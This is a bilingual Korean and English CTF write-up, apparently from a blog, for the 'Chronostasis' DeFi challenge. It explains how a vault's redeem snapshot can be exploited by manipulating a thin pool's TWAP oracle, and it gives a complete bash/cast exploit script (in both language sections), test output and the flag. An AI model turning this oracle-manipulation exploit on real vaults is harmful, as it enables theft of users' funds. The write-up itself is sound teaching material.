


<div class="post-language-switch" data-post-language-switch role="group" aria-label="Article language">
    <a class="post-language-switch__button no-styling" data-post-language-link="ko" href="/posts/sctf-chronostasis/kr/">KR</a>
    <a class="post-language-switch__button no-styling" data-post-language-link="en" href="/posts/sctf-chronostasis/en/">EN</a>
</div>

:::section{data-post-language-panel="ko"}
# Chronostasis

## 1. 분석 대상

주어진 구성은 `Setup`, `TWAPOracle`, `AsyncLPVault`, 그리고 두 개의 UniswapV2 풀로 이루어져 있다. A/B 풀은 vault가 감싸는 LP 토큰이고 B/C 풀은 `TKB`의 USD 기준 가격을 만들 때 쓰인다.

승리 조건은 vault가 보유한 A/B LP 수량이 초기 예치량보다 줄어드는 상태다.

```solidity
function isSolved() external view returns (bool) {
    return vault.totalAssetsLP() < initialVaultLPBalance;
}
```

먼저 확인할 부분은 비동기 redeem 흐름이다. `requestRedeem`은 요청 시점의 `pricePerShare`를 저장하고 `claimRedeem`은 청구 시점의 `lpPriceUSD`로 다시 LP 수량을 계산한다.

```solidity
uint256 snapshot = pricePerShare();

_requests[requestId] = RedeemRequest({
    owner: shareOwner,
    receiver: receiver,
    shares: shares,
    requestedAt: block.timestamp,
    snapshotPricePerShare: snapshot,
    fulfilled: false,
    canceled: false
});
```

청구 시점에는 아래 계산으로 LP가 지급된다.

```solidity
uint256 currentLPPrice = lpPriceUSD();
lpOut = req.shares * req.snapshotPricePerShare / currentLPPrice;
```

`lpPriceUSD`는 A/B 가격과 B/C 가격을 조합해 A/B LP의 USD 가치를 계산한다.

```text
priceA_USD = TWAP(A/B) * TWAP(B/C)
priceB_USD = TWAP(B/C)
lpOut = shares * snapshotPricePerShare / currentLPPrice
```

이 구조라서 요청 시점에는 정상 가격을 snapshot으로 잡고 청구 전에는 B/C TWAP를 낮춰 `currentLPPrice`만 떨어뜨리는 식으로 접근할 수 있다.

## 2. 풀이

초기 상태에서 A/B 풀은 깊고 B/C 풀은 상대적으로 얕다. `Setup` 기준으로 A/B 풀에는 `1,000,000 TKA`와 `1,000,000 TKB`가 들어가지만 B/C 풀에는 `1,000 TKB`와 `1,000 TKC`만 들어간다. 플레이어가 가진 `TKB`를 B/C 풀에 크게 넣으면 `TKB`의 `TKC` 기준 가격을 많이 낮출 수 있다.

공격 순서는 다음과 같다.

1. 먼저 A/B와 B/C oracle을 갱신해 정상 가격으로 redeem snapshot을 만들 수 있게 한다.
2. A/B 풀에 소량의 유동성을 넣고 받은 LP를 vault에 예치해 vault share를 받는다.
3. 받은 share 전체에 대해 `requestRedeem`을 호출한다. 이때 `snapshotPricePerShare`는 조작 전 가격으로 저장된다.
4. B/C 풀에 `TKB`를 대량으로 swap한다. B/C 풀의 `TKB` reserve가 커지고 `TKC` reserve가 줄어들면서 `TKB`의 USD 가격이 내려간다.
5. TWAP window인 300초를 보낸 뒤 A/B와 B/C oracle을 다시 갱신한다. `lpPriceUSD`가 두 pair를 모두 consult하므로 B/C만 갱신하면 환경에 따라 stale observation으로 실패할 수 있다.
6. `claimRedeem`을 호출한다. 분자는 조작 전 snapshot 가격이고 분모는 낮아진 현재 LP 가격이므로 예치한 LP보다 더 많은 LP가 지급된다.

지급되는 초과분은 vault 안에 미리 들어 있던 초기 LP에서 빠져나간다. 이 결과 `totalAssetsLP`가 `initialVaultLPBalance`보다 작아지고 `isSolved()`가 `true`가 된다.

## 3. Exploit

solver는 가격 snapshot을 잡은 뒤 B/C TWAP를 낮추고 300초 뒤 oracle을 다시 갱신한 다음 `claimRedeem`을 호출한다. 전체 코드는 다음과 같다.

```bash
#!/usr/bin/env bash
set -euo pipefail

: "${RPC:?set RPC to the instance RPC URL}"
: "${PK:?set PK to the player private key}"
: "${SETUP:?set SETUP to the Setup contract address}"

MAX_UINT=115792089237316195423570985008687907853269984665640564039457584007913129639935
LP_DEPOSIT=100000000000000000000
SWAP_B_IN=9900000000000000000000
DEADLINE=9999999999

cast_send() {
  cast send "$@" --rpc-url "$RPC" --private-key "$PK" >/dev/null
}

cast_call() {
  cast call "$@" --rpc-url "$RPC" | awk 'NR == 1 { print $1 }'
}

mine_after() {
  local seconds="$1"
  cast rpc --rpc-url "$RPC" evm_increaseTime "$seconds" >/dev/null || sleep "$seconds"
  cast rpc --rpc-url "$RPC" evm_mine >/dev/null || true
}

PLAYER="$(cast wallet address --private-key "$PK")"
TOKEN_A="$(cast_call "$SETUP" "tokenA()(address)")"
TOKEN_B="$(cast_call "$SETUP" "tokenB()(address)")"
TOKEN_C="$(cast_call "$SETUP" "tokenC()(address)")"
ROUTER="$(cast_call "$SETUP" "router()(address)")"
ORACLE="$(cast_call "$SETUP" "oracle()(address)")"
VAULT="$(cast_call "$SETUP" "vault()(address)")"
PAIR_AB="$(cast_call "$SETUP" "pairAB()(address)")"
PAIR_BC="$(cast_call "$SETUP" "pairBC()(address)")"
INITIAL="$(cast_call "$SETUP" "initialVaultLPBalance()(uint256)")"

echo "player=$PLAYER"
echo "setup=$SETUP"
echo "vault=$VAULT"
echo "initialVaultLP=$INITIAL"

mine_after 1
cast_send "$ORACLE" "update(address)" "$PAIR_AB"
cast_send "$ORACLE" "update(address)" "$PAIR_BC"

cast_send "$TOKEN_A" "approve(address,uint256)(bool)" "$ROUTER" "$MAX_UINT"
cast_send "$TOKEN_B" "approve(address,uint256)(bool)" "$ROUTER" "$MAX_UINT"
cast_send "$TOKEN_C" "approve(address,uint256)(bool)" "$ROUTER" "$MAX_UINT"

LP_BAL="$(cast_call "$PAIR_AB" "balanceOf(address)(uint256)" "$PLAYER")"
if [ "$LP_BAL" = "0" ]; then
  cast_send "$ROUTER" \
    "addLiquidity(address,address,uint256,uint256,uint256,uint256,address,uint256)(uint256,uint256,uint256)" \
    "$TOKEN_A" "$TOKEN_B" "$LP_DEPOSIT" "$LP_DEPOSIT" 0 0 "$PLAYER" "$DEADLINE"
  LP_BAL="$(cast_call "$PAIR_AB" "balanceOf(address)(uint256)" "$PLAYER")"
fi
echo "lpBalance=$LP_BAL"

cast_send "$PAIR_AB" "approve(address,uint256)(bool)" "$VAULT" "$MAX_UINT"
cast_send "$VAULT" "deposit(uint256,address)(uint256)" "$LP_BAL" "$PLAYER"

SHARES="$(cast_call "$VAULT" "balanceOf(address)(uint256)" "$PLAYER")"
echo "shares=$SHARES"

cast_send "$VAULT" "requestRedeem(uint256,address,address)(uint256)" "$SHARES" "$PLAYER" "$PLAYER"

cast_send "$ROUTER" \
  "swapExactTokensForTokens(uint256,uint256,address[],address,uint256)(uint256[])" \
  "$SWAP_B_IN" 0 "[$TOKEN_B,$TOKEN_C]" "$PLAYER" "$DEADLINE"

mine_after 300
cast_send "$ORACLE" "update(address)" "$PAIR_AB"
cast_send "$ORACLE" "update(address)" "$PAIR_BC"

BEFORE="$(cast_call "$VAULT" "totalAssetsLP()(uint256)")"
cast_send "$VAULT" "claimRedeem(uint256)(uint256)" 0
AFTER="$(cast_call "$VAULT" "totalAssetsLP()(uint256)")"
SOLVED="$(cast_call "$SETUP" "isSolved()(bool)")"

echo "beforeClaimLP=$BEFORE"
echo "afterClaimLP=$AFTER"
echo "isSolved=$SOLVED"

test "$SOLVED" = "true"
```

스크립트는 인스턴스에서 필요한 컨트랙트 주소를 읽은 뒤 A/B LP를 만들고 vault에 예치한다. 이후 redeem 요청을 걸어 snapshot을 고정하고 B/C swap과 oracle 갱신을 거쳐 `claimRedeem(0)`을 호출한다.

로컬 테스트에서도 같은 흐름으로 `claimRedeem` 이후 vault의 LP 잔고가 줄어드는 것을 확인했다.

```text
[PASS] testExploit()
1 passed; 0 failed
```

원격 인스턴스에서도 같은 순서로 실행했을 때 `isSolved`가 `true`로 바뀌었다.

```text
afterClaimLP = 1096505146041161139569415
isSolved = true
```

## 4. Flag

```text
SCTF{w0r!d.3xecut3(3th3r_!p_str1k3);}
```



:::

:::section{data-post-language-panel="en"}
# Chronostasis

## 1. Analysis focus

The challenge consists of `Setup`, `TWAPOracle`, `AsyncLPVault`, and two UniswapV2 pools. The A/B pool is the LP token wrapped by the vault, and the B/C pool is used to derive the USD-denominated price of `TKB`.

The win condition is that the amount of A/B LP held by the vault becomes smaller than the initial deposit.

```solidity
function isSolved() external view returns (bool) {
    return vault.totalAssetsLP() < initialVaultLPBalance;
}
```

The bug sits in the asynchronous redeem flow. `requestRedeem` stores the `pricePerShare` at request time, while `claimRedeem` recomputes the LP amount using `lpPriceUSD` at claim time.

```solidity
uint256 snapshot = pricePerShare();

_requests[requestId] = RedeemRequest({
    owner: shareOwner,
    receiver: receiver,
    shares: shares,
    requestedAt: block.timestamp,
    snapshotPricePerShare: snapshot,
    fulfilled: false,
    canceled: false
});
```

At claim time, LP is paid out with the calculation below.

```solidity
uint256 currentLPPrice = lpPriceUSD();
lpOut = req.shares * req.snapshotPricePerShare / currentLPPrice;
```

`lpPriceUSD` combines the A/B price and B/C price to calculate the USD value of the A/B LP.

```
priceA_USD = TWAP(A/B) * TWAP(B/C)
priceB_USD = TWAP(B/C)
lpOut = shares * snapshotPricePerShare / currentLPPrice
```

Because of this structure, we can take a normal-price snapshot at request time, then lower only `currentLPPrice` before claiming by pushing down the B/C TWAP.

## 2. Solution approach

In the initial state, the A/B pool is deep and the B/C pool is relatively shallow. In `Setup`, the A/B pool contains `1,000,000 TKA` and `1,000,000 TKB`, while the B/C pool contains only `1,000 TKB` and `1,000 TKC`. Therefore, by swapping a large amount of the player’s `TKB` into the B/C pool, the price of `TKB` in terms of `TKC` can be reduced significantly.

The exploit uses this sequence.

1. First, update the A/B and B/C oracles so a redeem snapshot can be made at the normal price.
2. Add a small amount of liquidity to the A/B pool, deposit the received LP into the vault, and receive vault shares.
3. Call `requestRedeem` for all received shares. At this point, `snapshotPricePerShare` is stored using the pre-manipulation price.
4. Swap a large amount of `TKB` into the B/C pool. As the B/C pool’s `TKB` reserve increases and its `TKC` reserve decreases, the USD price of `TKB` falls.
5. After waiting the 300-second TWAP window, update the A/B and B/C oracles again. Since `lpPriceUSD` consults both pairs, updating only B/C may fail depending on the environment due to a stale observation.
6. Call `claimRedeem`. The numerator uses the pre-manipulation snapshot price, while the denominator uses the lowered current LP price, so more LP is paid out than was deposited.

The excess payout comes from the initial LP that was preloaded in the vault. As a result, `totalAssetsLP` becomes smaller than `initialVaultLPBalance`, and `isSolved()` becomes `true`.

## 3. Exploit

The solver takes a price snapshot, lowers the B/C TWAP, updates the oracles again after 300 seconds, and then calls `claimRedeem`. The full code is below.

```bash
#!/usr/bin/env bash
set -euo pipefail

: "${RPC:?set RPC to the instance RPC URL}"
: "${PK:?set PK to the player private key}"
: "${SETUP:?set SETUP to the Setup contract address}"

MAX_UINT=115792089237316195423570985008687907853269984665640564039457584007913129639935
LP_DEPOSIT=100000000000000000000
SWAP_B_IN=9900000000000000000000
DEADLINE=9999999999

cast_send() {
  cast send "$@" --rpc-url "$RPC" --private-key "$PK" >/dev/null
}

cast_call() {
  cast call "$@" --rpc-url "$RPC" | awk 'NR == 1 { print $1 }'
}

mine_after() {
  local seconds="$1"
  cast rpc --rpc-url "$RPC" evm_increaseTime "$seconds" >/dev/null || sleep "$seconds"
  cast rpc --rpc-url "$RPC" evm_mine >/dev/null || true
}

PLAYER="$(cast wallet address --private-key "$PK")"
TOKEN_A="$(cast_call "$SETUP" "tokenA()(address)")"
TOKEN_B="$(cast_call "$SETUP" "tokenB()(address)")"
TOKEN_C="$(cast_call "$SETUP" "tokenC()(address)")"
ROUTER="$(cast_call "$SETUP" "router()(address)")"
ORACLE="$(cast_call "$SETUP" "oracle()(address)")"
VAULT="$(cast_call "$SETUP" "vault()(address)")"
PAIR_AB="$(cast_call "$SETUP" "pairAB()(address)")"
PAIR_BC="$(cast_call "$SETUP" "pairBC()(address)")"
INITIAL="$(cast_call "$SETUP" "initialVaultLPBalance()(uint256)")"

echo "player=$PLAYER"
echo "setup=$SETUP"
echo "vault=$VAULT"
echo "initialVaultLP=$INITIAL"

mine_after 1
cast_send "$ORACLE" "update(address)" "$PAIR_AB"
cast_send "$ORACLE" "update(address)" "$PAIR_BC"

cast_send "$TOKEN_A" "approve(address,uint256)(bool)" "$ROUTER" "$MAX_UINT"
cast_send "$TOKEN_B" "approve(address,uint256)(bool)" "$ROUTER" "$MAX_UINT"
cast_send "$TOKEN_C" "approve(address,uint256)(bool)" "$ROUTER" "$MAX_UINT"

LP_BAL="$(cast_call "$PAIR_AB" "balanceOf(address)(uint256)" "$PLAYER")"
if [ "$LP_BAL" = "0" ]; then
  cast_send "$ROUTER" \
    "addLiquidity(address,address,uint256,uint256,uint256,uint256,address,uint256)(uint256,uint256,uint256)" \
    "$TOKEN_A" "$TOKEN_B" "$LP_DEPOSIT" "$LP_DEPOSIT" 0 0 "$PLAYER" "$DEADLINE"
  LP_BAL="$(cast_call "$PAIR_AB" "balanceOf(address)(uint256)" "$PLAYER")"
fi
echo "lpBalance=$LP_BAL"

cast_send "$PAIR_AB" "approve(address,uint256)(bool)" "$VAULT" "$MAX_UINT"
cast_send "$VAULT" "deposit(uint256,address)(uint256)" "$LP_BAL" "$PLAYER"

SHARES="$(cast_call "$VAULT" "balanceOf(address)(uint256)" "$PLAYER")"
echo "shares=$SHARES"

cast_send "$VAULT" "requestRedeem(uint256,address,address)(uint256)" "$SHARES" "$PLAYER" "$PLAYER"

cast_send "$ROUTER" \
  "swapExactTokensForTokens(uint256,uint256,address[],address,uint256)(uint256[])" \
  "$SWAP_B_IN" 0 "[$TOKEN_B,$TOKEN_C]" "$PLAYER" "$DEADLINE"

mine_after 300
cast_send "$ORACLE" "update(address)" "$PAIR_AB"
cast_send "$ORACLE" "update(address)" "$PAIR_BC"

BEFORE="$(cast_call "$VAULT" "totalAssetsLP()(uint256)")"
cast_send "$VAULT" "claimRedeem(uint256)(uint256)" 0
AFTER="$(cast_call "$VAULT" "totalAssetsLP()(uint256)")"
SOLVED="$(cast_call "$SETUP" "isSolved()(bool)")"

echo "beforeClaimLP=$BEFORE"
echo "afterClaimLP=$AFTER"
echo "isSolved=$SOLVED"

test "$SOLVED" = "true"
```

The script reads the required contract addresses from the instance, creates A/B LP, and deposits it into the vault. It then makes a redeem request to lock in the snapshot, performs the B/C swap and oracle updates, and calls `claimRedeem(0)`.

In local testing, the same flow confirmed that the vault’s LP balance decreases after `claimRedeem`.

```
[PASS] testExploit()
1 passed; 0 failed
```

On the remote instance, running the same sequence also changed `isSolved` to `true`.

```
afterClaimLP = 1096505146041161139569415
isSolved = true
```

## 4. Flag


`SCTF{w0r!d.3xecut3(3th3r_!p_str1k3);}`
:::
